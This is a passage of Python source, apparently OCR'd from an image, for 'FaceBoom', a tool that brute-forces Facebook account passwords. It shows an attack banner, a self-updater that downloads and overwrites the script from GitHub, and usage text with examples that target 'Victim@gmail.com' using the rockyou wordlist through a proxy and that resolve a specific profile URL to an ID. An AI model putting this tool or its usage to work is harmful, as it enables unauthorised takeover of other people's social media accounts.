         if not single_passwd:
            print(gr+"""\
================================================="""+wi+"""
[~] """+yl+"""Brute"""+rd+""" ForceATTACK: """+gr+"""Enabled """+wi+"""[~]"""+gr+"""
=================================================\n"""+wi)
        else:print("\n")


    @staticmethod
    def updateFaceBoom():
        if not os.path.isfile(versionPath):
             errMsg("Unable to check for updates: please re-clone the script to fix this problem")
             sys.exit(1)
        write("[~] Checking for updates...\n")
        conn = httplib.HTTPSConnection("raw.githubusercontent.com")
        conn.request("GET", "/Oseid/FaceBoom/master/core/version.txt")
        repoVersion = conn.getresponse().read().strip().decode()
        with open(versionPath) as vf:
            currentVersion = vf.read().strip()
        if repoVersion == currentVersion:write("  [*] The script is up to date!\n")
        else:
                print("  [+] An update has been found ::: Updating... ")
                conn.request("GET", "/Oseid/FaceBoom/master/faceboom.py")
                newCode = conn.getresponse().read().strip().decode()
                with open("faceboom.py", "w") as  faceBoomScript:
                   faceBoomScript.write(newCode)
                with open(versionPath, "w") as ver:
                     ver.write(repoVersion)
                write("  [+] Successfully updated :)\n")

parse = optparse.OptionParser(wi+"""
Usage: python ./faceboom.py [OPTIONS...]
-------------
OPTIONS:
       |
    |--------
    | -t <target email> [OR] <FACEBOOK ID>    ::> Specify target Email [OR] Target Profile ID
    |--------
    | -w <wordlist Path>                      ::> Specify Wordlist File Path
    |--------
    | -s <single password>                    ::> Specify Single Password To Check
    |--------
    | -p <Proxy IP:PORT>                      ::> Specify HTTP/S Proxy (Optional)
    |--------
    | -g <TARGET Facebook Profile URL>        ::> Specify Target Facebook Profile URL For Get HIS ID
    |--------
    | -u/--update                             ::> Update FaceBoom Script
-------------
Examples:
        |
     |--------
     | python faceboom.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
     |--------
     | python faceboom.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     |--------
     | python faceboom.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129
     |--------
     | python faceboom.py -t Victim@gmail.com -s 1234567
     |--------
     | python faceboom.py -g https://www.facebook.com/sohail.abid.77
     |--------
""")
